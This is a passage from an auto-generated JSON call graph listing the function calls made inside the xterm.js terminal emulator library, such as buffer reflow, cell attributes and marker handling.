"_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "tabSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reverseIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shiftElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restrictCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fullReset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_eraseAttrData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setgLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "screenAlignmentPattern"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markAllDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestStatusString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isProtected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markAllDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "unregister"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getKeyIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "forEachByKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_search"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "enqueue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_cancelCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_requestCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "timeRemaining"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "timeRemaining"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_requestCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_cancelCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_createDeadline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_requestCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "requestIdleCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_cancelCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cancelIdleCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "enqueue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColorRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromColorRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isInverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isBold"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isUnderline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasExtendedAttrs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isBlink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isInvisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isItalic"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isDim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isStrikethrough"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isProtected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isOverline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getFgColorMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBgColorMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isFgRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isBgRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isFgPalette"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isBgPalette"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isFgDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isBgDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isAttributeDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getFgColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBgColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasExtendedAttrs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "updateExtended"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getUnderlineColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getFgColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getFgColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getUnderlineColorMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getFgColorMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isUnderlineColorRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isFgRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isUnderlineColorPalette"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isFgPalette"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isUnderlineColorDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isFgDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getUnderlineStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getUnderlineVariantOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "ext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "ext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "underlineStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "underlineStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "underlineColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "underlineColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "urlId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "urlId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "underlineVariantOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "underlineVariantOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setupTabStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getNullCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWhitespaceCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBlankLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasScrollback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isCursorInViewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCorrectBufferLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fillViewportRows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setupTabStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getNullCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCorrectBufferLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "trimStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "enqueue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_batchedMemoryCleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_batchedMemoryCleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cleanupMemory"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_isReflowEnabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_reflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_reflowLarger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_reflowSmaller"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_reflowLarger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getNullCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_reflowLargerAdjustViewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_reflowLargerAdjustViewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getNullCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_reflowSmaller"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getNullCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getTrimmedLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBlankLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateBufferLineToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWrappedRangeForLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setupTabStops"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "prevStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "nextStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearMarkers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearAllMarkers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addMarker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeMarker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeMarker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fromCharData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getFg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getBg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCodePoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isCombined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isProtected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "loadCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setCellFromCodepoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "addCodepointToCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": 